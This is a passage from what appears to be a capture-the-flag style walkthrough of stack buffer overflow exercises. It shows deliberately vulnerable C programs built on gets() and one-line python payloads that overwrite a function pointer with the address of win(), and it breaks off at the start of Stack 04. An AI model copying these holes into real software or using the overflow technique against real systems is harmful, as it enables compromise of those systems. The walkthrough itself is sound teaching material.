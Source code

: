         GREENIE=`python -c "print 'A' * 64 + '\x0a\x0d\x0a\x0d'"` ./stack2
    ```
    
### [Stack 03]
Overwrite function pointers stored on the stack.

```c
void win(){
    printf("code flow successfully changed\n");
}

int main(int argc, char **argv){
    volatile int (*fp)();
    char buffer[64];

    fp = 0;

    gets(buffer);

    if(fp) {
        printf("calling function pointer, jumping to 0x%08x\n", fp);
        fp();
    }
}
```

> objdump: this command displays information about an object file. It has many parameters that change what is shown: among other possibilities you can see the content of the headers and sections, some disassembly, symbol tables, formats and architectures.

> |: the vertical line is used to pump output from an instruction to the next instruction

1. As in the previous challenges, we have to overwrite a variable by overflowing the input buffer. This time the string is read from stdin, but it will again be made of special characters because we have to provide an address.
2. This address is a pointer to the location of the `win()` method. So the first thing to do is to find out where that method is: 

    ```bash
        objdump -t stack3 | grep win # use grep to get only relevant output
    ```
3. This shows that the function is at address 0x08048424. Remembering that the system is little endian, it means that we will have to pass it as a string of form \x24\x84\x04\x08. 
4. As in the previous challenge, we have to use a workaround to get the special characters properly. We don't have to write any variable, so we can do directly `python -c "print 'A' * 64 + '\x24\x84\x04\x08'" | ./stack3.`

### [Stack 04]
Overwrit saved EIP and standard buffer overflows.

```c
void win(){
    printf("code flow successfully changed\n");
}

int main(int argc, char **argv){
    char buffer[64];

    gets(buffer);
}
```
